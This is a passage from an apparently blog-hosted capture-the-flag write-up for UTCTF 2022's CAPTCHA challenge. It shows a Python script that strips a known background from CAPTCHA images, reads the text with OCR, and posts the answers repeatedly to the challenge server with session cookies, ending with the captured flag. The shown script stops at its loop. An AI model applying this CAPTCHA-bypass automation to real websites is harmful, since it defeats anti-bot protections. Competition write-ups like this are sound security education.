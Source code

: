 ```python
        lastdata = data
        lastcookies = cookies

print(cookies)
print(data)

final_request = rq.post("http://web1.utctf.live:7132", cookies=cookies, data=data)
print(final_request.text)
```

### Running the Script

All that was left was to run our solve script, back up our cookies + data, and hope nothing would go wrong.

![An emotional moment.]({{ site.baseurl }}/assets/images/utctf2022/rerecaptcha/success.png)

Flag: `utflag{skibidi_bop_mm_dada_uLG7Jrd5hP}`

## Final Script

```python
from PIL import Image
import pytesseract as pyt
import requests as rq
from io import BytesIO
from bs4 import BeautifulSoup
from base64 import b64decode

background = Image.open("background.png")

# convert a captcha to white text on a black background
def clean(background, captcha):
    new = captcha
    for x in range(background.width):
        for y in range(background.height):
            if background.getpixel((x,y)) == captcha.getpixel((x,y)):
                new.putpixel((x,y), 0)
            else:
                new.putpixel((x,y), (255,255,255))
    return new

def get_status(html: str) -> str:
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("p")

def get_image(html: str):
    soup = BeautifulSoup(html, "html.parser")
    base64 = soup.find("img")["src"][23:]
    byteimage = BytesIO(b64decode(base64))
    return byteimage

# set known good values for lastdata and lastcookies so the program doesn't loop
lastcookies = {'session': 'u.t0dL7PW/308b0IS+q293b5xDoxBikB1honNSFKXXI3bDHlw=.3kx8Fie0+nm1/0gclmGQtw==.x5/rxvX2y0iOJovic9dx7w=='}
lastdata = {'solution': 'X7p8TS'}
cookies, data = {}, {}

# initial request
request = rq.post("http://web1.utctf.live:7132")

solves = 0
while solves < 999:
```